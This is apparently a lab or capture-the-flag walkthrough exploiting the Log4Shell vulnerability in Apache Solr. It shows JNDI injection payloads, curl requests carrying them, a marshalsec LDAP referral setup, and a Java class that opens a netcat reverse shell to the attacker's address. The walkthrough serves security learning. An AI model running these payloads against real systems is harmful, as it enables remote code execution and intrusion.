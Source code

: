 # log4j

## Reconnaissance
First thing is to scan and enumerate the target using nmap. CVE-2021-44228, dubbed "Log4Shell", impacts the Java logging package log4j versions 2.0-beta9 through 2.12.1 and 2.13.0 through 2.15.0<br>
```bash
nmap -p- -sC -sV -oN log4j.nmap 10.10.98.169
```
nmap results are found in <a href="log4j.nmap">log4j.nmap</a><br>

## Discovery
This server is running Java 1.8.0_181 and <a href="https://solr.apache.org/">Apache Solr</a>.<br>
A sample of the log files are provided in this room. An important log file of note is <a href="solrlogs/solr.log">solr.log</a>. A sample of what is important is below:
```
2021-12-13 03:44:58.415 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=80
2021-12-13 03:47:53.989 INFO  (qtp1083962448-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:54.819 INFO  (qtp1083962448-16) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:55.284 INFO  (qtp1083962448-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:55.682 INFO  (qtp1083962448-22) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.075 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.459 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.844 INFO  (qtp1083962448-14) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:57.253 INFO  (qtp1083962448-17) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:57.548 INFO  (qtp1083962448-18) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
```
Params seems like a potential attack vector.

## Proof of Concept
Navigating to http://10.10.98.169/solr/admin/cores/ gives us a JSON object.<br>
```
The log4j package adds extra logic to logs by "parsing" entries, ultimately to enrich the data -- but may additionally take actions and even evaluate code based off the entry data. This is the gist of CVE-2021-44228. Other syntax might be in fact executed just as it is entered into log files.
```
Some examples of this syntax are :
<ul>
<li>${sys:os.name}</li>
<li>${sys:user.name}</li>
<li>${log4j:configureParentLocation}</li>
<li>${ENV:PATH}</li>
<li>${ENV:HOSTNAME}</li>
<li>${java:version}</li>
</ul>
The general payload to exploit the log4j vulnerability is as follows:

```
${jndi:ldap://ATTACKER_CONTROLLED_HOST}
```
Java Naming and Directory Interface (JNDI) which is used to access external resources, or "references", which is weaponized in this attack.<br>
Where could we enter this syntax?<br>
<b>Anywhere that has data logged by the application<b><br>
We know that params is the attack vector but other locations might be:
<ul>
<li>Input boxes, user and password for login forms, data entry points</li>
<li>HTTP headers such as User-Agent, X-Forwarded-For, or other customizable headers</li>
<li><b>Any place for user-supplied data</b></li>
</ul>
<a href="https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf">Here</a> is a Black-Hat talk about the JNDI attack surface.<br>

Set up a reverse-shell

```bash
nc -lnvp 9999
```

Make a request including the JNDI payload syntax as part of the HTTP parameters. 
```bash
curl 'http://10.10.67.235:8983/solr/admin/cores?params=$\{jndi:ldap://10.6.67.75:9999\}'
```

## Exploitaion
Right now, when a shell is caught, all it displays is non-printable characters because of the LDAP. We can use a <b>LDAP Referral Server</b> which redirects the initial request of the victim to another location where you can stage a secondary payload. The attack chain is as follows:
1. ${jndi:ldap://ATTACK_CONTROLLED_HOST:PORT/Resource} -> reaches out to our LDAP Referral server
2. LDAP Referral server springboards the request to a secondary http://ATTACK_SERVER/Resource
3. The victim receives and executes the code resent at http://ATTACK_SERVER/resource 

I can set up an HTTP server that will be refered by LDAP.
```bash
python3 -m http.server 8080
```
After downloading and building <a href="https://github.com/mbechler/marshalsec">this</a> LDAP server. 
```bash
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"
```
This sets creates and start a listener on port 1389.<br>
Lastly, I need to create code that will be executed. This is written in Java.
```java
public class Exploit {
	static {
		try {
			java.lang.Runtime.getRuntime().exe("nc -e /bin/bash 10.6.67.75 9999");
		} catch (Exception e) {
			e.printStackTrace();
		}

	}
}
```
Compile
```bash
javac Exploit.java -source 8 -target 8
```
And start a listener to catch the shell
```bash
nc -lnvp 9999
```
Lastly is to deliver the payload
```bash
curl 'http://10.10.67.235:8983/solr/admin/cores?params=$\{jndi:ldap://10.6.67.75:1389/Exploit\}'
```